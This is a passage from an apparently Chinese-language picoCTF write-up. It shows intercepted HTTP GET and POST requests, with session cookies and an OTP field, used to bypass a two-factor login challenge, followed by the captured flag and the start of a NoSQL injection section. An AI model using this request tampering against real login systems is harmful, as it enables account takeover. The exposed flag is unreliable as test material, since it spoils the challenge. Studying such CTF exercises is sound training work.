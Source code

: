 ```GET
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:57361/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=.eJxNjM0KwyAQhN_Fcw-GrsTty4g_u0SaqKghlNJ3755KbzPfx8xbxTxf6qGmz42yuqk4OrtZn1SEJkjAgOEOTLSYlaPnsFqjF9ToI4q1mpBlx-e-u-IPklncLiF1NskIYKyR2vwYV-3p59tWC7lyHoG6QC2XQs9B_e_m8wUAfzIB.ZfF0TA.lnPFakYpokwVTkgYfY9SblOyskA
Connection: close
```
> 問題不在這
#### 2. 2fa authentication
http://titan.picoctf.net:65271/dashboard \
![image](https://hackmd.io/_uploads/Hy3wIM10p.png)

![image](https://hackmd.io/_uploads/H1DZPfk0a.png)

```POST
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:65271
Content-Length: 10
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:65271
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:65271/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=.eJxNzM0KwyAQBOB38dyDa9XUvozoZiWhiQZ_CKH03bu99Tbzwcxb4Nov8RQ9rAet4iaw1eR7eVFmtWAAZowAxumExhk7kcZJgZplCGkio3REy7s0ts3nsBPPcDlZSj84G2WlfXA9QmtnqTMbqPsPlpLJ57FHqozSScc6GtW_m88XdvAwbg.ZfGUow.ViJwEkvW_SJmGF3Kj5eygAII60k
Connection: close

otp=chwchw
```
#### 3. 刪除OTP請求
![image](https://hackmd.io/_uploads/BkB0dz10T.png)

### GET FLAG
**FLAG:picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}**

## No Sql Injection
![image](https://hackmd.io/_uploads/ry2nI3RTa.png)
http://atlas.picoctf.net:61553/ \
![image](https://hackmd.io/_uploads/Hy0CLhCp6.png)
